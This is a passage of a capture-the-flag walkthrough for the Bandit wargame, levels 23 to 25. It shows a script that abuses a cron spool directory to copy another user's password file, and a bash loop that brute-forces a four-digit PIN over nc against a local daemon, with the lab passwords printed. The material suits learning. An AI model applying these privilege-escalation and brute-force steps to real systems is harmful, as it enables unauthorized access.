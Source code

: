 ```py
cat /etc/bandit_pass/bandit24 > tmp/jhalon/pass
# reading the contents of the bandit24 password file (/etc/bandit_pass/bandit24)
# and sending its output into a file that our bandit23 user account can see. (tmp/jhalon/pass)
#Save this new script as script.sh.


$ chmod 777 script.sh
# make our script executable by bandit24. 777 is excessive for permissions
# can also chmod -R 777 your tmp file in order to ls your files if you’re finding not listing your directory to be irritating.


$ cp script.sh /var/spool/bandit24
# copy script into the /var/spool/bandit24 folder.

# Give it a minute to allow the cron job to run and then cat the file you specified as output.
$ dir -a
.  ..  pass  script.sh
$ cat /tmp/jhalon/pass
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

---

## Bandit Level 24 → Level 25 `nc localhost port password pin`
Level Goal
- A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, `brute-force`.

- Objective
  - Brute force the server listening on port 30002 using the password for Bandit 24.

list of general steps for this challenge/script.
  - Connect to the service
  - Send a password + pin combo (Script and `automate this process`)
  - Evaluate the results

1. go ahead and write a `Bash Script` to Brute Force the PIN while attempting a connection.

`echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1001 | nc localhost 30002 >> result &`

```py

#!/bin/bash
password24=UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
for i in {0000..9999}
  do
    echo $password24 $i >> passlist.txt
  done

# generated the passlist.txt with the password and 0000 for example:
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
...

# cat this file into nc and let it run
cat passlist.txt | nc localhost 30002


-----------------------------------------------------


#!/bin/bash
```